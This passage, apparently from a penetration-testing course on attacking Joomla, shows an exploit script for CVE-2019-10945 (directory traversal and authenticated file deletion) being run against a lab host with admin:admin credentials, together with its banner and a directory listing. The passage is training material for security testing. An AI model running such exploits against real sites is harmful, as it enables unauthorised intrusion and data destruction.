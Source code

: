 We can run the script by specifying the `--url`, `--username`, `--password`, and `--dir` flags. As pentesters, this would only be useful to us if the admin login portal is not accessible from the outside since, armed with admin creds, we can gain remote code execution, as we saw above.

&#x20; Attacking Joomla

```shell-session
root@htb[/htb]$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

***

### Moving On
